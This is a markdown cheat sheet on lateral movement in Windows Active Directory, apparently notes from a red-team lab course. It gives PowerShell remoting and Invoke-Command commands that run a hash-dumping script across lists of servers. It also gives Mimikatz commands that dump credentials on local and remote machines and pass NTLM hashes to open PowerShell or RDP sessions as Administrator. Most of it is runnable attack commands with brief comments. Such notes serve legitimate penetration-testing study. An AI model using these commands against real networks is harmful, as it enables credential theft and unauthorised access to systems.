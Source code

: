 # Lateral Movement

## To Enable Powershell Remoting(Requires Admin)

```
Enable-PSRemoting -Force
```

uses 5985 - http and 5986 for ssl\
needs local admin rights on target machine

## Powershell Remoting

you can use -Credential parameter to pass credentials

```
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```

## StateFull Sessions

## Invoke-Command

Use below to execute commands or scriptblocks:&#x20;

• Use below to execute scripts from files\
Invoke-Command –FilePath C:\Get-PassHashes.ps1 - ComputerName (Get-Content list\_of\_servers)

if it shows constraint language mode you can only run built-in functions which is caused by applocker policy\
you can import scripts in you machine and then call the function through invoke-command

Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections

## Use below to execute locally loaded function on the remote machines

• In this case, we are passing Arguments. Keep in mind that only positional arguments could be passed this way:\
Invoke-Command -ScriptBlock ${function:Get-PassHashes} - ComputerName (Get-Content list\_of\_servers) - ArgumentList

In below, a function call within the script is used\
Invoke-Command –Filepath C:\Get-PassHashes.ps1 - ComputerName (Get-Content list\_of\_servers)

## Use below to execute "Stateful" commands using Invoke-Command:

```
$Sess = New-PSSession –Computername Server1
Invoke-Command –Session $Sess –ScriptBlock {$Proc = Get-Process}
Invoke-Command –Session $Sess –ScriptBlock {$Proc.Name}
```

## Mimikatz

```
Import-Module .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -DumpCreds

Invoke-Mimikatz -DumpCreds -ComputerName @("sys1","sys2") //dumping on multiple remote machines

"over pass the hash" generate tokens from hashes.
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:dollarcorp.moneycorp.local /ntlm:<ntlmhash> /run:powershell.exe"'

```



## RDP with NTLM

```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:dollarcorp.moneycorp.local /ntlm:<ntlmhash> /run:mstsc.exe restrictedadmin"'
```

